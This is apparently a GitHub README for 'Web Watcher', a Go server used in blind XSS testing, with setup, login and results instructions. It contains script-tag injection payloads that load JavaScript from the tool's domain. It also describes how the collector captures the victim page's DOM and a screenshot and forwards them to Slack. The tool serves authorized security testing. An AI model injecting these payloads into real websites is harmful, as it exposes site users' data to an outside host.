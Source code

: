 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  



